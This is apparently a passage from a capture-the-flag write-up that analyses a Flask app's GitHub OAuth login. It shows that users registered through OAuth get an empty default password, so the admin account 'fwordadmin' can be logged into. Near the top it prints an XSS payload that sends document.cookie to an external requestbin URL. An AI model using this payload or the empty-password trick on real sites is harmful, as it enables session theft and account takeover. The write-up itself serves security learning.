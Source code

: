 ``` ![<img src="#" onerror="src='http://requestbin.net/r/12bfihl1?c='+document.cookie; this.onerror=null"/>](#){onerror=outerHTML=alt} ```
@oauth_authorized.connect_via(github_authbp)
def github_oauth(github_authbp,token):
    if not github.authorized:
        return redirect(url_for("github.login"))
    resp = github.get("/user")
    if not resp.ok:
        return redirect(url_for("github.login"))
    info=resp.json()
    auth=oauth.OAuth.query.filter_by(provider_user_id=info["id"]).first()
    if auth is None:
        auth = oauth.OAuth(provider="github", provider_user_id=info["id"], token=token)
        if auth.user:
            login_user(auth.user)
            return redirect("/home",302)
        else:
            if not validate_username(info["login"]):
                return redirect("/register")
            if info["login"]=="fwordadmin":
                user = users.User(username=info["login"], email=info["email"],is_admin=True)
            else:
                user=users.User(username=info["login"],email=info["email"])
            auth.user=user
            base.db_session.add_all([user,auth])
            base.db_session.commit()
            login_user(user)
            return redirect("/home",302)
    else:
        login_user(auth.user)
        return redirect("/home", 302)

```

The meaning of this code (for lazy people :p ) when a user completes the Oauth dance successfully for the first time he will be registered in the database in the User table and we can also notice that **fwordadmin** is the github account of the admin (this information will help us next).

Now our goal is to login using fwordadmin account, there's something suspicious in the previous code, when you connect via github you don't need any password but indeed the user is still
saved in the same table where regular registrations are stored so we have to wonder what password is set by default or is there some column to verify the login method (which is not the case).

The User class confirms our statement, the default password is set to ""

```python
class User(UserMixin,Base):
    __tablename__ = 'users'
    id = Column(Integer, primary_key=True)
    username = Column(String(50), unique=True)
    email = Column(String(120), unique=True)
    password_hash=Column(String(200))
    is_admin=Column(Boolean)
    def __init__(self, username=None, email=None,password="",is_admin=False):
        self.username = username
        self.email = email
        print("pass :"+password)
        self.set_password(password)
        self.is_admin=is_admin

```
